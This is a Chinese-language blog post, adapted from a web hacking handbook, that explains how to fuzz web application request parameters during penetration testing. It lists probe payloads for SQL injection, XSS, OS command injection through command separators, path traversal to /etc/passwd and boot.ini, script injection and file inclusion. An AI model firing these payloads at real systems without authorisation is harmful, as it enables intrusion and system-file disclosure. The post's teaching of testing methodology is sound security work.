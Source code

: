 ```yaml
---
layout: post
title: "Web应用程序渗透测试方法论 - 测试基于输入的漏洞"
description: "应用程序很多重要的漏洞都是由无法预测的用户输入触发"
tags: [web, security, test]
---
```

注：原文来自《黑客攻防技术宝典》

* 目录
{:toc}

{% include image.html path="documentation/pen-test/test-input-based-vulners.png" path-detail="documentation/pen-test/test-input-based-vulners.png" alt="test-input-based-vulners" %}

## 1. 模糊测试所有请求参数
(1) 检查应用程序解析过程中获得的结果，确定所有提交由服务器端应用程序处理的参数的特殊客户端请求。相关参数分别位于URL查询字符串、请求主体及HTTP cookie中。他们还包括所有给应用程序行为造成影响的用户提交数据，如Referer或User-Agent消息头。

(2) 要对这些参数进行模糊测试，可以使用自己的脚本，或者现成的模糊测试工具。

(3) 配置一组适当的攻击有效载荷，在应用程序中探查漏洞。模糊测试应用程序中的第一个请求参数往往需要发布数目庞大的请求，并在结果中查找反常现象。如果设定的攻击字段字符串过多，这样反而达不到预期的目标，甚至生成无数的输入，以致很难对其进行分析。因此，较为明智的做法是，测试一系列可在专门设计的输入的反常响应中轻易确定的常见漏洞，以及出现在应用程序的所有位置而非某些特殊功能中的漏洞。可以使用以下一组有效载荷测试一些常见的漏洞。
{% highlight markdown %}
SQL Injection
    ‘
    ‘--
    ‘; waitfor delay ‘0:30:0’--
    1; waitfor delay ‘0:30:0’--
XSS and Header Injection
    xsstest
    “><script>alert(‘xss’)</script>
OS Command Injection
    || ping -i 30 127.0.0.1 ; x || ping -n 30 127.0.0.1 &
    | ping –i 30 127.0.0.1 |
    | ping –n 30 127.0.0.1 |
    & ping –i 30 127.0.0.1 &
    & ping –n 30 127.0.0.1 &
    ; ping 127.0.0.1 ;
    %0a ping –i 30 127.0.0.1 %0a
    ` ping 127.0.0.1 `
Path Traversal
    ../../../../../../../../../../etc/passwd
    ../../../../../../../../../../boot.ini
    ..\..\..\..\..\..\..\..\..\..\etc\passwd
    ..\..\..\..\..\..\..\..\..\..\boot.ini
Script Injection
    ;echo 111111
    echo 111111
    response.write 111111
    :response.write 111111
File Inclusion
    http://<your server name>/
    http://<nonexistent IP address>/
{% endhighlight %}
